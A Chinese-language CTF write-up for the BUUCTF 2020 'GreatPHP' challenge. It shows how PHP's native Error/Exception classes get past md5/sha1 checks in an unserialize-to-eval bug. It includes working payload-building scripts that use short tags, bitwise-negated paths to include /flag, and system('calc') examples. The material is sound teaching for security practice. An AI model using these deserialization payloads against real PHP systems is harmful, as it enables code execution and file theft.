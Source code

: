 # PHP原生类利用

原题戳这👉<a href="https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202020]Greatphp">BUUCTF 极客大挑战2020 GreatPHP</a>

```php
<?php
error_reporting(0);
class Test {
    public $a;
    public $b;

    public function __wakeup(){
        if( ($this->a != $this->b) && (md5($this->a) === md5($this->b)) && (sha1($this->a)=== sha1($this->b)) ){
            if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){
                eval($this->syc);
            } else {
                die("Try Hard !!");
            }

        }
    }
}

if (isset($_GET['great'])){
    unserialize($_GET['great']);
} else {
    highlight_file(__FILE__);
}
```

很明显的反序列化考题，但是过滤了`<?php`、`(`、`)`、`'`、`"`

要求`Test`类的两个属性不同，但其哈希值md5、sha1相等

常规思路是数组绕过md5、sha1检测

```php
<?php
$a = array(1);
$b = array(2);
echo (md5($a) === md5($b)) && (sha1($a)=== sha1($b)); // 1
```

但是当后面eval碰上数组时：

```php
<?php
$a = array("<?php system('calc')");
eval($a);
```

> Notice: Array to string conversion
> Parse error: syntax error, unexpected end of file, expecting '(' in xxx.php(3) : eval()'d code on line 1

可以看出数组被转为字符串，`echo $a;`输出`Array`
这就解释了`eval`的报错：缺少左括号，eval以为我们要执行`Array()`

所以我们要找一个类，满足如下要求：

1. 能够绕过md5、sha1检测
2. 存在`__toString`方法能够输出我们构造的恶意代码

这里就要用到了PHP的原生类：`Error`和`Exception`

![image-20221018160914553](../images/image-20221018160914553.png)

可以看到输出了我们自定义的错误信息和行号

![image-20221018161114438](../images/image-20221018161114438.png)

注意：`?><?php system('calc');?>`
`第一个?>`是为了闭合前面的`<?php Error: `  （`eval`会自动在参数前拼接`<?php`）
`第二个?>`是为了抛掉后面的错误信息
即：`Error: ?><?php system('calc');?> in E:\JetBrains\apps\PhpStorm\PhpCode\funny.php:2....`

接着看哈希的绕过
```php
<?php
class Test{
    public $a;
    public $b;

    public function __construct($a, $b){
        $this->a =$a;
        $this->b =$b;
    }
}
$payload = "test";
$a= new Error($payload, 1);$b= new Error($payload, 2); // 注意$a、$b放同一行，输出的错误行才能相同
$test = new Test($a, $b);
echo $test->a.PHP_EOL;
echo $test->b.PHP_EOL;
if( ($test->a != $test->b) && (md5($test->a) === md5($test->b)) && (sha1($test->a)=== sha1($test->b)) ){
    echo 'Bingo!!!';  // Bingo!!!
}
```

![image-20221018162420550](../images/image-20221018162420550.png)

md5、sha1会触发`Error`类的`__toString`方法，我们可以看到输出的`$a`、`$b`相同
而我们在`new Error()`时，`$a、$b`第二个参数不同，因此`$a != $b`

到这里绕过了第一层限制，接着看`preg_match`
过滤了`<?php`、`(`、`)`、`'`、`"`

可以用短标签`<?= =>`代替`<?php`
过滤了括号，我们只能使用不需要括号的函数（其实叫PHP的语言结构）

> echo
>
> print
>
> die
>
> include，注意，include_once()是函数
>
> require，注意，require_once()是函数

我们尝试用`include`来包含`/flag`，过滤了引号，我们不能直接`include '/flag'`

PHP对于未定义的常量，会假设它是字面值的字符串

如下：
```php
<?php
echo php666;
// Warning: Use of undefined constant php666 - assumed 'php666' 
// (this will throw an Error in a future version of PHP)
```

但我们要包含根目录下的flag，`/`是关键字符，这里用取反绕过

```php
<?php
$a = ~'/flag';
echo urlencode($a);
// %D0%99%93%9E%98
// $payload = "?><?=include~".urldecode("%D0%99%93%9E%98")."?>";
```

```php
<?php
class Test{
    public $a;
    public $b;

    public function __construct($a, $b){
        $this->a =$a;
        $this->b =$b;
    }
}
$payload = "?><?=include~".urldecode("%D0%99%93%9E%98")."?>";
$a= new Error($payload, 1);$b= new Error($payload, 2);
$test = new Test($a, $b);
echo urlencode(serialize($test));
```

注：上面的`Error`换成`Exception`效果相同。

